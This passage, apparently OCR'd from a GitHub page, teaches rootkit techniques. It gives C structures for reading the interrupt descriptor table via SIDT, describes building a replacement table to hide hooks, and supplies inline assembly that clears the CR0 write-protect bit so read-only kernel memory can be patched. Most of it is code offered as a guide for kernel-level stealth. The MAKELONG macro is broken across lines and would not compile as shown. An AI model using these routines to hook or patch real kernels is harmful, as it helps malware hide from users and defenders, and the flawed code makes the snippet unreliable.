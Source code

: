 One trick employed by rootkits is to create a new interrupt table. This can be used to hide modifications made to the original interrupt table. 

```C
/* sidt returns idt in this format */
typedef struct
{
   unsigned short IDTLimit;
   unsigned short LowIDTbase;
   unsigned short HiIDTbase;
} IDTINFO;
```

Using the data provided by the SIDT instruction, an attacker can then find the base of the IDT and dump its contents.

```C
// entry in the IDT: this is sometimes called
// an "interrupt gate"

#pragma pack(1)
typedef struct
{
      unsigned short LowOffset;
      unsigned short selector;
      unsigned char unused_lo;
      unsigned char segment_type:4; //0x0E is interrupt gate
      unsigned char system_segment_flag:1;
      unsigned char DPL:2;     // descriptor privilege level
      unsigned char P:1;       // present
      unsigned short HiOffset;
} IDTENTRY;
#pragma pack()
```

To access the IDT, use the following code example as a guide:
```C
#define MAKELONG(a, b)
((unsigned long) (((unsigned short) (a)) | ((unsigned long) ((unsigned short) (b))) << 16))
```

CR0 has a write/read bit that allows writing to readonly pages


```C
      // UN-protect memory
      __asm
      {
            push eax
            mov  eax, CR0
            and  eax, 0FFFEFFFFh
            mov  CR0, eax
            pop  eax
      }
      // do something
      // RE-protect memory
      __asm
      {
            push eax
            mov  eax, CR0
            or   eax, NOT 0FFFEFFFFh
            mov  CR0, eax
            pop  eax
      }
```
